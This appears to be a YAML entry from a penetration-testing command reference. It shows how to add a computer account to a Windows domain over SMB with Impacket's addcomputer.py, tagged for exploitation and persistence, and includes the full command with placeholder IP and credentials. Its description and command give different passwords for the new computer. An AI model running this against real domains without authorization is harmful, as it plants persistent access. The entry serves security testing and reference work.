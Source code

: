 ```yaml
---
title: |
  Add computer to the domain using SMB
description: |
  Impacket's addcomputer.py will add a computer account to the domain and set its password. The following command will create a new computer over the SMB by specifying the `SAMR` method.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	New Computer Password: Welkom01!

  	New Computer Name: testComputer

  	Username: test

  	Password: Welkom01!

command: |
  python3 addcomputer.py -method SAMR -dc-ip 10.10.10.1 -computer-pass TestPassword321 -computer-name testComputer test.local/test:Welkom01!
items:
  - Username
  - Password
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
  - http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
---
```

